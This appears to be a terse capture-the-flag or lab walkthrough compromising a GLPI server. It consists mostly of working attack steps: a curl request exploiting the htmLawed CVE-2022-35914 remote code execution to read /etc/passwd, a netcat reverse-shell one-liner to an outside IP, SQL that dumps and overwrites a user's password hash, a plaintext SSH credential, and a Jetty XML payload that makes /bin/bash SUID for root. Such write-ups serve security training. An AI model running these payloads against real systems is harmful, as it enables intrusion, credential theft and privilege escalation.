




_____

>[!INFO]
> IP=192.168.180.242
> Linux
# Nmap
|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|

```python
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 98:4e:5d:e1:e6:97:29:6f:d9:e0:d4:82:a8:f6:4f:3f (RSA)
|   256 57:23:57:1f:fd:77:06:be:25:66:61:14:6d:ae:5e:98 (ECDSA)
|_  256 c7:9b:aa:d5:a6:33:35:91:34:1e:ef:cf:61:a8:30:1c (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Authentication - GLPI
|_http-server-header: Apache/2.4.41 (Ubuntu)
```

## 80 - http

```python
whatweb http://$IP
http://192.168.180.242[200 OK] Apache[2.4.41], Cookies[glpi_8ac3914e6055f1dc4d1023c9bbf5ce82], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], HttpOnly[glpi_8ac3914e6055f1dc4d1023c9bbf5ce82], IP[192.168.180.242], PasswordField[fieldb65bb8c2b819ca], PoweredBy[Teclib], Script[text/javascript], Title[Authentication - GLPI], X-UA-Compatible[IE=edge]
```


## Fuzzing

```txt
/index.php/           (Status: 200) [Size: 9017]
/files/               (Status: 200) [Size: 3480]
/public/              (Status: 200) [Size: 932]
/pics/                (Status: 200) [Size: 23670]
/bin/                 (Status: 200) [Size: 933]
/plugins/             (Status: 200) [Size: 944]
/css/                 (Status: 200) [Size: 1923]
/ajax/                (Status: 200) [Size: 0]
/install/             (Status: 200) [Size: 0]
/lib/                 (Status: 200) [Size: 0]
/status.php/          (Status: 200) [Size: 115]
/src/                 (Status: 200) [Size: 133257]
/front/               (Status: 200) [Size: 0]
/js/                  (Status: 200) [Size: 8070]
/marketplace/         (Status: 200) [Size: 952]
/vendor/              (Status: 200) [Size: 7847]
/config/              (Status: 200) [Size: 1158]
/inc/                 (Status: 200) [Size: 0]
/sound/               (Status: 200) [Size: 2358]
/templates/           (Status: 200) [Size: 3286]
/locales/             (Status: 200) [Size: 24760]
/phpinfo.php/         (Status: 200) [Size: 79778]
```

https://github.com/glpi-project/glpi


https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/


```bash
array_map(call_user_func, "passthru", "cat /etc/passwd")
```

```bash
sid=bhd7v2653r006qv4b3k2omhqng&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=cat+/etc/passwd
```


```bash
curl -s -d 'sid=bhd7v2653r006qv4b3k2omhqng&text=call_user_func&hhook=array_map&hexec=passthru&spec[0]=&spec[1]=cat+/etc/passwd' -b 'sid=bhd7v2653r006qv4b3k2omhqng' http://192.168.180.242/vendor/htmlawed/htmlawed/htmLawedTest.php
```


### revshell

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.248 80 >/tmp/f
```

# PrivEsc

glpi:glpi_db_password

```sql
select name, password from glpi_users where name = 'betty';
```

`betty:$2y$10$jG8/feTYsguxsnBqRG6.judCDSNHY4it8SgBTAHig9pMkfmMl9CFa`

https://bcrypt.online/

```sql
update glpi_users SET password = '$2y$10$mHWWZ3uR3Mo5Q/FSFrEZHOm69rxKLPXW0T/z9y6XaJ6Dy9PqCJ6n.' where name = 'betty';
```


Login as betty:dani




## ssh

```bash
betty@$IP 
SnowboardSkateboardRoller234
```

`
## root

```bash
netstat -tulpn
```




```bash
ssh -L 1234:localhost:8080 betty@192.168.180.242
```



### Eclipse RCE



```bash
echo "chmod +s /bin/bash" > /tmp/root.sh
chmod +x /tmp/root.sh
```

```bash
cd /opt/jetty/jetty-base/webapps
nano rce.xml
```

```xml
<?xml version="1.0"?>  
<!DOCTYPE Configure PUBLIC "-//Jetty//Configure//EN" "https://www.eclipse.org/jetty/configure_10_0.dtd">  
<Configure class="org.eclipse.jetty.server.handler.ContextHandler">  
    <Call class="java.lang.Runtime" name="getRuntime">  
        <Call name="exec">  
            <Arg>  
                <Array type="String">  
                    <Item>/tmp/root.sh</Item>  
                </Array>  
            </Arg>  
        </Call>  
    </Call>  
</Configure>
```
